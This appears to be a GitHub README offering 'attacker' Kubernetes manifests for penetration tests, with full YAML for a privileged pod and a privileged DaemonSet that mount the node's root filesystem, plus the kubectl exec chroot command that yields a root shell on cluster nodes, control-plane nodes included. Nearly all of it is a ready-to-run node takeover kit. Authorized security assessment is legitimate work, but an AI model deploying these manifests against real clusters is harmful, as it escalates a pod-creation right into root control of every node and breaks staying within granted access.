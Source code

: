 # Attacker Manifests

These are Kubernetes manifests that could be useful on security assessments, or pentests. 

N.B. for pentesters, make sure you have delete rights to the objects you create and make sure to clean up when you're done!

## General form

* `kubectl create -f [MANIFEST.YAML]` creates object contained in a file called [MANIFEST.YAML]
* `kubectl delete -f [MANIFEST.YAML]` deletes object contained in a file called [MANIFEST.YAML]

if you want to create the objects in a specific namespace that isn't your current active one add the following to your manifest under metadata

```yaml
  namespace: [NAMESPACENAME]
```

## Root Pod

This manifest will create a privileged pod on a node in the cluster. Once it's running `kubectl exec -it noderootpod chroot /host` should give you a root shell on the node.

This won't work if :-

1. You don't have right to create pods in the namespace
2. The node can't pull images from Docker Hub
3. There's PodSecurityPolicies (or equivalent) blocking the creation of privileged pods

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: noderootpod
  labels:
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: noderootpod
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

## Root daemonset

This manifest does the same thing as the pod one, except it creates a pod on every cluster node (including control plane nodes in un-managed clusters). Once it's running, get a list of pods in the daemonset with `kubectl get daemonset noderootdaemon` then use kubectl exec (as above) to execute the `chroot /host` command in one of the pods

This won't work if :-

1. You don't have right to create daemonsets in the namespace
2. The node can't pull images from Docker Hub
3. There's PodSecurityPolicies (or equivalent) blocking the creation of privileged pods by the replicaset controller in that namespace.


```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: noderootdaemon
  labels:
spec:
  selector:
    matchLabels:
      name: noderootdaemon
  template:
    metadata:
      labels:
        name: noderootdaemon
    spec:
      tolerations:
      - key: node-role.kubernetes.io/master
        effect: NoSchedule
      hostNetwork: true
      hostPID: true
      hostIPC: true
      containers:
      - name: noderootpod
        image: busybox
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: noderoot
        command: [ "/bin/sh", "-c", "--" ]
        args: [ "while true; do sleep 30; done;" ]
      volumes:
      - name: noderoot
        hostPath:
          path: /
```